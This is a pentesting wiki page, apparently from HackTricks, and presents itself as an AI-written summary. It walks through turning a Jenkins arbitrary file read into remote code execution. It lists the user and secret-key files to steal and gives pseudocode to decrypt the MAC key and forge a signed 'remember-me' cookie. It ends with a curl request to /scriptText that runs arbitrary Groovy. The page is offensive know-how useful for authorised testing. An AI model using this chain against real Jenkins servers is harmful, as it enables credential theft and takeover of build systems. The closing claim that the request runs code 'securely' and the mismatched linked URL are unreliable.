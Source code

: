 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{{#include ../../banners/hacktricks-training.md}}

In this blog post is possible to find a great way to transform a Local File Inclusion vulnerability in Jenkins into RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

This is an AI created summary of the part of the post were the creaft of an arbitrary cookie is abused to get RCE abusing a local file read until I have time to create a summary on my own:

### Attack Prerequisites

- **Feature Requirement:** "Remember me" must be enabled (default setting).
- **Access Levels:** Attacker needs Overall/Read permissions.
- **Secret Access:** Ability to read both binary and textual content from key files.

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

- Access user configuration and secrets from `$JENKINS_HOME/users/*.xml` for each user to gather:
  - **Username**
  - **User seed**
  - **Timestamp**
  - **Password hash**

**Secret Key Extraction**

- Extract cryptographic keys used for signing the cookie:
  - **Secret Key:** `$JENKINS_HOME/secret.key`
  - **Master Key:** `$JENKINS_HOME/secrets/master.key`
  - **MAC Key File:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

- **Calculate Token Expiry Time:**

  ```javascript
  tokenExpiryTime = currentServerTimeInMillis() + 3600000 // Adds one hour to current time
  ```

- **Concatenate Data for Token:**

  ```javascript
  token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
  ```

**MAC Key Decryption**

- **Decrypt MAC Key File:**

  ```javascript
  key = toAes128Key(masterKey)  // Convert master key to AES128 key format
  decrypted = AES.decrypt(macFile, key)  // Decrypt the .mac file
  if not decrypted.hasSuffix("::::MAGIC::::")
      return ERROR;
  macKey = decrypted.withoutSuffix("::::MAGIC::::")
  ```

**Signature Computation**

- **Compute HMAC SHA256:**

  ```javascript
  mac = HmacSHA256(token, macKey) // Compute HMAC using the token and MAC key
  tokenSignature = bytesToHexString(mac) // Convert the MAC to a hexadecimal string
  ```

**Cookie Encoding**

- **Generate Final Cookie:**

  ```javascript
  cookie = base64.encode(
    username + ":" + tokenExpiryTime + ":" + tokenSignature
  ) // Base64 encode the cookie data
  ```

#### Step 3: Code Execution

**Session Authentication**

- **Fetch CSRF and Session Tokens:**
  - Make a request to `/crumbIssuer/api/json` to obtain `Jenkins-Crumb`.
  - Capture `JSESSIONID` from the response, which will be used in conjunction with the remember-me cookie.

**Command Execution Request**

- **Send a POST Request with Groovy Script:**

  ```bash
  curl -X POST "$JENKINS_URL/scriptText" \
  --cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
  --header "Jenkins-Crumb: $CRUMB" \
  --header "Content-Type: application/x-www-form-urlencoded" \
  --data-urlencode "script=$SCRIPT"
  ```

  - Groovy script can be used to execute system-level commands or other operations within the Jenkins environment.

The example curl command provided demonstrates how to make a request to Jenkins with the necessary headers and cookies to execute arbitrary code securely.

{{#include ../../banners/hacktricks-training.md}}





